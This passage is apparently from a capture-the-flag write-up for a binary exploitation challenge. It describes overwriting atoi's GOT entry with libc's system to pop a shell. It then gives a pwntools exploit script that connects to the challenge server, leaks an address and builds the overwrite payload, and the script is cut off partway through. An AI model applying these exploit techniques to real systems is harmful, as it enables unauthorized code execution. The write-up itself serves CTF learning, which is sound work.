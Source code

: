Finally we can just call `edit_level` which will edit the current level which we have corrupted to be `atoi@got`. We'll overwrite this with `system` and we'll pop a shell! The final bit of code can be seen below. 

```python
final = flat([
    libc.symbols['system']
])
edit(final)
p.interactive()
```

Side note... I tried one gadgets as well as multiple different GOT overwrites and none of them worked. `atoi` had the least impact on the program and after bashing my head I thought to myself "Why not just use system?". Evidently one gadgets are not always the answer, who knew?

Super fun challenge and full exploit script is below. 

```python
from pwn import *
context.terminal = ['tmux', 'split-window', '-h']
elf = context.binary = ELF("chall_patched")
libc = ELF(b'libc.so.6')
#p = elf.process()
p = remote("chall.lac.tf", 31338)

def create(idx):
    index = str(idx).encode()
    p.sendline(b'1')
    p.sendline(index)

def edit(data):
    p.sendline(b'2')
    p.sendline(data)

def test_level():
    p.sendline(b"3")

def explore(idx):
    p.sendline(b"4")
    p.sendline(str(idx).encode())

def reset():
    p.sendline(b'5')

p.recvline()
leak = p.recvline()
leak = int(leak.split(b': ')[1].strip(b'\n').decode(), 16)
elf.address = leak - elf.symbols['main']

# Tier 1
create(1)
create(2)
create(3)

# Branch 2
explore(2)
create(1)
create(2)

# back to tier 1
reset()
explore(1)
got_atoi = elf.got.atoi - 0x40
payload = flat([
    'b' * 40,
```